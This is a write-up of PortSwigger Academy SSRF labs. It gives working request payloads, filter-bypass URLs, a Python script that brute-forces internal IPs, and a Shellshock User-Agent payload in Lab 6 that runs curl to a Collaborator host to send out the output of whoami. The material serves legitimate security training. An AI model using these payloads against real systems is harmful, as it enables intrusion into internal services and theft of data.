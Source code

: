 # Portswigger Writeups

## Lab 1: Basic SSRF against local server

This lab has an admin interface at `http://localhost/admin`. To solve the lab, delete `carlos`.

When checking stock for a product, I see this request being made via a `stockApi` POST parameter.

![](../../.gitbook/assets/portswigger-ssrf-writeup-image.png)

Change this to `http://localhost/admin/delete?username=carlos` and send the request to solve the lab.

## Lab 2: SSRF to backend

This lab has an admin interface on `192.168.0.X` on port 8080. To solve the lab, delete `carlos`.

Same thing, there's a `stockApi` parameter that accesses `http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1`.

To solve this lab, I can create a script to brute force each `/admin/delete?username=carlos` interface.

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a0c00de04d67e5283264bd1007f00cb'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

for i in range(195, 255):
	octet = str(i)
	print(f'Testing 192.168.0.{octet}')
	data = {
		'stockApi': f'http://192.168.0.{octet}:8080/admin/delete?username=carlos'
	}
	r = s.post(url + '/product/stock', data=data, proxies=proxies, verify=False)
```

Pretty simple.

## Lab 3: Blind SSRF

This requires Burp Collaborator, and the lab uses analytics software which fetches the URL specified in the `Referer` header when a product page is loaded.

Pretty simple, replace the `Referer` header with what is required:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-1.png)

## Lab 4: Blacklist Input Filter

This lab has a blacklist, and an admin interface at `http://localhost/admin`.

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-2.png)

I tested using payloads from PayloadAllTheThings, and eventually the short-handed IP address worked in bypassing the checker:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-3.png)

Writing `/admin` results in me getting blocked again, which is probably the second protection used by the lab.

I noticed the visiting `http://127.1/delete?username=carlos` was allowed, which means the `admin` string is being blocked. To bypass this, I used double URL-encoding of `a` to `%2561`. 

```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

## Lab 5: Open Redirection

This lab has an admin interface at `http://192.168.0.12:8080/admin`, and there's an open redirect vulnerability somewhere on the site.

The `stockApi` variable has now been set to the local application.

```
stockApi=/product/stock/check?productId=2&storeId=1
```

Within this particular lab, there's a 'Next Product' function:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-4.png)

The above sends this request:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-5.png)

The `path` variable looks vulnerable since it places its value within the `Location` header in the response.

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-6.png)

Changing it to the `path` variable redirects me to the admin panel, which obviously doesn't work since I do not have any connection to the LAN backend.

Since the `stockApi` is restricted to the **local application**, I can make the `stockApi` function be redirected to the admin interface instead, since it should be connected to it. 

Setting the `stockApi` to `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos` solves the lab.

## Lab 6: Shellshock

This lab is vulnerable to the Shellshock exploit, allowing for RCE. The `Referer` header is the vulnerable header. 

To solve this lab, exfiltrate the name of the OS user. 

Shellshock means that the `User-Agent` header is vulnerable (most of the time).


When I changed the `Referer` header to a Burpsuite Collaborator URL, this is what I get:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-7.png)

So the `Referer` header is vulnerable to SSRF since it visits any URL specified. This means I can set the `Referer` header to the internal server on `192.168.0.0/24`. This server is the one vulnerable to Shellshock.

Afterwards, I can set the `User-Agent` to this:

```
() { :; }; /usr/bin/curl BURP.oastify.com/$(whoami)
```

This would execute `curl` on the Collaborator URL and use a subshell to get the username. Next, I have to brute force each IP address via Intruder / Python to see which one is valid. The valid IP address would be served the payload, and thus trigger the RCE.

Burp Intruder can do this:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-8.png)

After the brute force is done, Collaborator receives this:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-9.png)

## Lab 7: Whitelist-based Input Filter

To solve this lab, delete the user `carlos` using `http://localhost/admin`. This lab has an anti-SSRF feature.

When checking stock, this is the URL visited:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-10.png)

Based on the the whitelist portion of Portswigger Academy, it states that we can embed credentials or use the `#` character to bypass certain checks:

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-11.png)

This lab supports using credentials, and I just needed to set the domain to the default one. So based on this, I can use `http://username@stock.weliketoshop.net` to still visit `stock.weliketoshop.net` and append data.

Within the `username` parameter, I used `localhost:80`, since it followed the password convention. Next, it was still visiting `stock.weliketoshop.net`, so I used a double-URL encoded `#` character before the `@` character.

![](../../.gitbook/assets/portswigger-ssrf-writeup-image-12.png)

Without the `#` character, there was an error, indicating that the machine may be 'removing' the valid domain to parse the rest of the URL.

As such, I just included the directory to visit at the back, and it solved the lab.

```
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
